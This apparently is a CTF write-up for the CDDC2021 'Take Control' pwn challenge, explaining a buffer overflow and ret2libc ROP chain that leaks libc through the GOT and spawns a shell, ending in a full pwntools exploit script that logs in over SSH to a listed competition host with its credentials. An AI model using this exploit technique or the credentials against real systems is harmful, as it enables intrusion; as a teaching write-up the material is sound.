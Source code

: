 ```yaml
---
title : "Take Control [Pwn]"
categories: CDDC2021
disass:
 - url: /assets/images/take_control/main.png
   image_path: /assets/images/take_control/main.png
   title: "main"
 - url: /assets/images/take_control/vuln.png
   image_path: /assets/images/take_control/vuln.png
   title: "vuln"
---
```


Simple Return Oriented Programming challenge. Second pwn challenge in CDDC2021.

# Challenge Description

One of TheKeepers found a file that seems too vulnerable we need your help to exploit it. Download the file and try to figure out how you can exploit it. Once you have a working exploit, execute it on the remote target.

```
Target: 18.136.182.104 port 60220
Username: bot
Password: GDCpa$$w0rd2021
```

Link: [http://157.230.245.61/0x0602/Ehai8f/m2/file.zip](http://157.230.245.61/0x0602/Ehai8f/m2/file.zip)

SHA256: 9ea8ac313a943e84e0dd2126e825232c32d7036ae43f463e1aee83dd296fac16

# Solution

Download + unzip the zip file, we get a 32bit binary and libc. This strongly hints ROP. Since it is 32 bit, no gadgets are needed, and arguments just go onto the stack.

Before I did anything, I ran a quick `checksec` on both the files.

{% include image.html url="/assets/images/take_control/checksec.png" description="" %}

Binary doesn't have PIE, great! I later found out that server has ASLR, so that means I have to leak libc base somehow...

Next thing I did was just normal protocol: fire up Ghidra.

{% include gallery id="disass" %}

So we can see that `main` elevates our privileges, then calls `vuln`, which is vulnerable (*duhhh*) to buffer overflow. The required padding is 404 bytes for the array and 8 bytes for array pointer and base pointer.

First plan is to call `system("/bin/sh")`, which will give us root shell.

For this, we need to find `system` and `"/bin/sh"` in libc, we can fire up gdb and verify that these two are present. It's not in the binary itself, trust me, I've looked :) 

One thing to note is that we need to make sure we run the binary with the libc in the current directory. So, run this:

```bash
export LD_LIBRARY_PATH=$(pwd)
```

Since `system` is not imported, we would need to leak libc base, then using the offset we have, to find the address of `system` during runtime. We can make use of the handy `geteuid` function that gets called in `main` which means its `.plt.got` entry would have already been updated, saving us one less call (which is totally insignificant but hey).

Here's the ROP chain for leaking `geteuid` address.

```python
rop.raw(OFFSET)
rop.raw(puts)
rop.raw(vuln)
rop.raw(geteuid_got)
```

What this does is print the contents in `geteuid_got`, which is the address of the GOT entry storing the address of the dynamically linked function. Then it returns back to `vuln` after leaking the address, for us to construct a second ROP chain.

With the address of `geteuid` we can calculate the libc base by subtracting away its offset. Then, we can calculate the addresses of `system` and `"/bin/sh"` trivially.

```python
addr_line = r.recvline() # Leaked address
geteuid_addr = int.from_bytes(addr_line[0:4], 'little')

lib_base = geteuid_addr - lib_geteuid
log.info("LIBC base: %s" % hex(lib_base))

system = lib_base + lib_system

str_offset = next(libc.search(b"/bin/sh"))

sh_str = lib_base + str_offset
```

Finally, we spawn shell:

```python
rop.raw(OFFSET)
rop.raw(system)
rop.raw(vuln) # filler
rop.raw(sh_str)
```

```bash
$ cat flag.txt
CDDC21{Y0u_OverFlow_1T}
```

# Final Script
```python
#!/usr/bin/env python3

from pwn import *
import sys

elf = ELF("./gdc_library")
rop = ROP(elf)

if len(sys.argv) < 2 or sys.argv[1] != "remote":
    libc = ELF("./libc.so.6")
    r = process("./gdc_library")
    pause()
else:
    libc = ELF("./amd_libc.so.6")
    ssh_client = ssh(user="bot", password="GDCpa$$w0rd2021", host="18.136.182.104", port=60220)
    r = ssh_client.process("./gdc_library")


OFFSET = "A" * 404 + "B" * 8


###########################
### Important addresses ###
###########################

geteuid = elf.sym["geteuid"]
puts    = elf.sym["puts"]
vuln    = elf.sym["vuln"]

geteuid_got = elf.got["geteuid"]

lib_geteuid = libc.sym["geteuid"]
lib_system  = libc.sym["system"]


##############################
### Leak `geteuid` address ###
##############################

rop.raw(OFFSET)
rop.raw(puts)
rop.raw(vuln)
rop.raw(geteuid_got)

r.recvuntil(":")
r.send(rop.chain())


###################################
### Calculate LIBC base address ###
###################################

r.recvline() # Junk line
addr_line = r.recvline() # Leaked address
geteuid_addr = int.from_bytes(addr_line[0:4], 'little')

lib_base = geteuid_addr - lib_geteuid
log.info("LIBC base: %s" % hex(lib_base))


####################################
### Calculate required addresses ###
####################################

system = lib_base + lib_system

str_offset = next(libc.search(b"/bin/sh"))

sh_str = lib_base + str_offset


###################
### Spawn shell ###
###################

rop = ROP(elf) # new chain

rop.raw(OFFSET)
rop.raw(system)
rop.raw(vuln) # filler
rop.raw(sh_str)

r.recvuntil(":")
r.send(rop.chain())

r.interactive()
```

Flag: `CDDC21{Y0u_OverFlow_1T}`
